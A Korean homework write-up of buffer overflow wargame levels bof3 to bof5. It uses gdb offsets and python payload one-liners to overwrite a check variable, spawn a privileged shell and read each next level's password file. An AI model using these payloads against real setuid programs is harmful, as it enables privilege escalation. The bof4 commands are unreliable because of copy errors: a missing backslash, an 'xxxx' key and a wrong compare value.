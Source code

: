 # HW-6
## bof3

먼저 `bat bof3.c`로 bof3 파일을 확인해보겠습니다.

![61](61.PNG)

'system("/bin/sh") 함수'를 실행시켜야지, bof4의 권한으로 쉘이 열리고 bof4의 비밀번호가 적혀있는 bof4.pw를 읽을 수 있습니다. 

이를 위해서는 변수 Innocent와 KEY의 값이 같아야 합니다. 이때 KEY는 0x61 즉, a라는 것을 알 수 있습니다.

이후 `gdb bof3`로 buf와 Innocent의 거리를 알아보겠습니다.

'vuln 함수'에 브레이크를 걸고 프로그램을 실행시키다보면 위에서 확인한 것처럼 'gets 함수'가 나옵니다. 'gets 함수'의 인자가 buf이기 때문에 이의 위치을 확인합니다.

![62](62.PNG)

buf의 위치는 위 사진에서 rdi의 값이고 *0x00007fffffffe40* 입니다.

그 다음으로 Innocent와 KEY(0x61)를 비교해주는 cmp를 보면, Innocent의 위치를 확인할 수 있습니다.

![63](63.PNG)

여기서 0x61과 [rbp-0x4]의 값을 비교하므로 Innocent의 주솟값은 [rbp-0x4]라는 것을 알 수 있고, 이는 *0x7fffffffe4cc* 입니다.

이제 이 값들을 빼주면 buf와 Innocent의 거리가 나옵니다.

![64](64.PNG)

둘의 거리는 **140**이라는 것을 알았습니다.

이제, **140** 만큼의 데이터로 buf를 채워주고 그다음 Innocent 부분을 KEY인 0x61로 채워줍니다. 이때, 0x61를 little Endian으로 나타내면 *a\x00\x00\x00* 입니다.

따라서 *python -c "print 'x'*140 + 'a\x00\x00\x00'"* 를 입력하면 됩니다.

bof3에서는 파일을 실행하면, 'gets 함수'를 통해 입력을 받아줍니다. 따라서 *python -c "print 'x'*140 + 'a\x00\x00\x00'" | ./bof3* 로 파일을 실행하야 하는데, 이렇게만 한다면 바로 쉘이 종료되기 때문에 
```
(python -c "print 'x'*140 + 'a\x00\x00\x00'";cat) | ./bof3 
```
로 실행시킵니다. 그 다음 `cat bof4.pw` 를 통해 bof4의 비밀번호를 알아낼 수 있습니다.

![65](65.PNG)

비밀번호는 **43b07fce** 입니다.

---

## bof4

먼저 `bat bof4.c`로 bof4 파일을 확인해보겠습니다.

![66](66.PNG)

'system("/bin/sh") 함수'를 실행시켜야지, bof5의 권한으로 쉘이 열리고 bof5의 비밀번호가 적혀있는 bof5.pw를 읽을 수 있습니다. 

이를 위해서는 변수 Innocent와 KEY의 값이 같아야 합니다. 이때 KEY는 0x12345678라는 것을 알 수 있습니다.

이후 `gdb bof4`로 buf와 Innocent의 거리를 알아보겠습니다.

'main 함수'에 브레이크를 걸고 프로그램을 실행시키다보면 main에서 인자가 주어줘야하기 때문에 실행시킬 때 인자를 입력해주지 않으면, argc가 1이여서 'vuln 함수'로 가기 전 에러가 뜨게 됩니다. 따라서 'gdb'에서 `r`로 프로그램을 실행시킬 때 `r 123`같이 인자를 넣어주어야 합니다.

이후 'strcopy 함수'가 나오고 이 함수의 첫 번째 인자가 buf이므로 이 위치를 확인해보겠습니다.

![67](67.PNG)

buf의 위치는 위 사진에서 rdi의 값이고 *0x00007fffffffe430* 입니다.

그 다음으로 Innocent와 KEY(0x12345678)를 비교해주는 cmp를 보면, Innocent의 위치를 확인할 수 있습니다.

![68](68.PNG)

여기서 0x61과 [rbp-0x4]의 값을 비교하므로 Innocent의 주솟값은 [rbp-0x4]라는 것을 알 수 있고, 이는 *0x7fffffffe4bc* 입니다.

이제 이 값들을 빼주면 buf와 Innocent의 거리가 나옵니다.

![69](69.PNG)

둘의 거리는 **140**이라는 것을 알았습니다.

이제, **140** 만큼의 데이터로 buf를 채워주고 그다음 Innocent 부분을 KEY인 0x12345678로 채워줍니다. 이때, 0x12345678를 little Endian으로 나타내면 *\x78\x56\x34\x12* 입니다.

따라서 *python -c "print 'x'*140 + 'x78\x56\x34\x12'"* 를 입력하면 됩니다.

bof4에서는 파일을 실행할 때, 인자를 주어줘야 합니다. 따라서 
```
 ./bof4 `python -c "print 'x'*140 + 'xxxx'"` 
 ```
 로 실행시킵니다. 그 다음 `cat bof5.pw` 를 통해 bof5의 비밀번호를 알아낼 수 있습니다.

![610](610.PNG)

비밀번호는 **b9947d7c** 입니다.

---

## bof5

먼저 `bat bof5.c`로 bof5 파일을 확인해보겠습니다.

![611](611.PNG)

'system("/bin/sh") 함수'를 실행시켜야지, bof6의 권한으로 쉘이 열리고 bof6의 비밀번호가 적혀있는 bof6.pw를 읽을 수 있습니다. 
> 하지만 여기선 'system(buf)'라고 되어있습니다. 이를 위의 경우처럼 실행하기 위해서는 buf에 */bin/sh\x00*를 입력한 후, 다른 것으로 채워줘야 합니다.

이를 위해서는 변수 Innocent와 KEY의 값이 같아야 합니다. 이때 KEY는 0x12345678라는 것을 알 수 있습니다.

이후 `gdb bof5`로 buf와 Innocent의 거리를 알아보겠습니다.

'vuln 함수'에 브레이크를 걸고 프로그램을 실행시키다보면 위에서 확인한 것처럼 'gets 함수'가 나옵니다. 'gets 함수'의 인자가 buf이기 때문에 이의 위치을 확인합니다.

![612](612.PNG)

buf의 위치는 위 사진에서 rdi의 값이고 *0x00007fffffffe440* 입니다.

그 다음으로 Innocent와 KEY를 비교해주는 cmp를 보면, Innocent의 위치를 확인할 수 있습니다.

![613](613.PNG)

여기서 0x61과 [rbp-0x4]의 값을 비교하므로 Innocent의 주솟값은 [rbp-0x4]라는 것을 알 수 있고, 이는 *0x7fffffffe4cc* 입니다.

이제 이 값들을 빼주면 buf와 Innocent의 거리가 나옵니다.

![614](614.PNG)

둘의 거리는 **140**이라는 것을 알았습니다.

이제, **140** 만큼의 데이터로 buf를 채워주고 그다음 Innocent 부분을 KEY인 0x12345678로 채워줍니다. 이때, 0x12345678를 little Endian으로 나타내면 *\x78\x56\x34\x12* 입니다.

따라서 *python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'"*를 입력하면 됩니다.

bof5에서는 파일을 실행하면, 'gets 함수'를 통해 입력을 받아줍니다. 따라서 *python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'" | ./bof5* 로 파일을 실행하야 하는데, 이렇게만 한다면 바로 쉘이 종료되기 때문에 
```
(python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5 
```
로 실행시킵니다. 그 다음 `cat bof6.pw` 를 통해 bof6의 비밀번호를 알아낼 수 있습니다.

![615](615.PNG)

비밀번호는 **62adb7bb** 입니다.
